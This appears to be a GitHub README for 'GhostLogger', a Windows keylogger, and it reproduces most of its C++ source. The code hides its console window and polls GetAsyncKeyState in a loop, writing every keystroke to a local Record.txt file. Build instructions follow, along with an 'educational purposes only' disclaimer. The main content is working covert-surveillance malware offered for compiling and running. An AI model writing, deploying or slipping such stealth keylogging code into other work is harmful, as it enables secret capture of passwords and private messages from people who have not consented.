 <img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

<div align="center">

# GhostLogger 👻🖥️

**Welcome to **GhostLogger**, a stealthy and efficient keylogging application for Windows! Designed for educational purposes and to demonstrate low-level Windows programming techniques, GhostLogger captures and records keystrokes in a hidden manner.**

</div>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Features 🌟
- **Stealth Mode**: Runs invisibly in the background.
- **Comprehensive Key Logging**: Captures a wide range of keys, including alphabetic characters, numeric keys, function keys, control keys, and special characters.
- **Log File**: Records all keystrokes in `Record.txt`.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Project Structure 📁
```
GhostLogger
├───.vscode
│   ├───c_cpp_properties.json
│   ├───settings.json
│   └───tasks.json
└───src
    ├───main.cpp
    └───Record.txt
```

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## How It Works 🛠️
The main functionality is encapsulated in `main.cpp`, which includes the following key components:
- **KeyLogger**: A function that captures keystrokes using `GetAsyncKeyState` and writes them to `Record.txt`.
- **hide_exe**: A function that hides the console window to ensure the program runs `invisibly`.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

### Code Overview 👨‍💻
Here's a brief look at the core code in `main.cpp`:

```cpp
#include <iostream>
#include <windows.h>
#include <winuser.h>
#include <fstream>

// Function prototypes
void KeyLogger(void);
void hide_exe();

// main function
int main(void)
{
    hide_exe();
    KeyLogger();
}

// function to capture the keystrokes
void KeyLogger(void)
{
    char character;

    while (true)
    {
        for (character = 8; character <= 222; character++)
        {
            if (GetAsyncKeyState(character) == -32767)
            {
                std::ofstream write("Record.txt", std::ios::app);
                if (character > 64 && character < 91 && !GetAsyncKeyState(0x10))
                {
                    character += 32;
                    write << character;
                }
                else if (character > 64 && character < 91)
                {
                    write << character;
                }

                switch (character)
                {
                    case 39: // '
                        write << (GetAsyncKeyState(0x10) ? "\"" : "'");
                        break;
                    case 44: // ,
                        write << (GetAsyncKeyState(0x10) ? "<" : ",");
                        break;
                    // ... handle other cases ...
                    case VK_RETURN: // ENTER key
                        write << " <Enter> " << std::endl;
                        break;
                    case 32: // Space key
                        write << " ";
                        break;
                    // ... handle other cases ...
                }
            }
        }
    }
}

// function to hide the exe file.
void hide_exe()
{
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, 0);
}
```

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Getting Started 🚀
To run GhostLogger on your machine, follow these steps for different operating systems:

### Windows
1. **Clone the Repository**:
   ```sh
   git clone https://github.com/B3TA-BLOCKER/GhostLogger.git
   ```

2. **Open and Edit the Code**:
   - Use any text editor of your choice (e.g., Notepad++, Sublime Text, Atom, or even Notepad).

3. **Compile and Run**:
   - Ensure you have a C++ compiler installed. You can use any of the following methods:

#### Using GCC (MinGW):

1. **Install MinGW**: Download and install MinGW from [MinGW website](http://www.mingw.org/).

2. **Compile the Code**:
   ```sh
   g++ src/main.cpp -o main
   ```

3. **Run the Program**:
   ```sh
   ./main
   ```

#### Using Visual Studio:

1. **Install Visual Studio**: Download and install Visual Studio from [Visual Studio website](https://visualstudio.microsoft.com/).

2. **Open the Project**:
   - Create a new project or open an existing one.
   - Add `main.cpp` to the project.

3. **Compile and Run**:
   - Use the build and run options within Visual Studio.

### macOS and Linux
**This project relies on `Windows-specific APIs` and functions, making it `incompatible` with macOS and Linux out of the box.** 
**As GhostLogger uses Windows-specific functions like `GetAsyncKeyState`, `AllocConsole`, and `FindWindowA`, it won't compile or run on macOS and Linux without significant modifications. The instructions above are for general C++ projects.**

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Usage ⚙️
- Once the program is running, it will operate in the background, logging all keystrokes to `Record.txt`.
- To stop the program, you will need to end the process through Task Manager or by terminating it via your development environment.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Legal Disclaimer ⚖️
This project is intended for educational purposes only. Unauthorized use of keylogging software is illegal and unethical. Always ensure you have explicit permission before using this software on any device.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Connect with Me 🌐
I'm always looking to expand my professional network and explore new opportunities. Let's connect!
- [LinkedIn](https://www.linkedin.com/in/hassaan-ali-bukhari/)
- [Email](mailto:hassaanalibukhari@gmail.com)

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## License 📜
This project is licensed under the Creative Commons Zero v1.0 Universal License. See the [LICENSE](LICENSE) file for details.

<br>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

Made by [Hassaan Ali Bukhari](https://github.com/B3TA-BLOCKER)
<br>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=DotGothic16&size=41&width=800&height=60&lines=Happy+coding!+🚀&center=true&vCenter=true)](https://git.io/typing-svg)
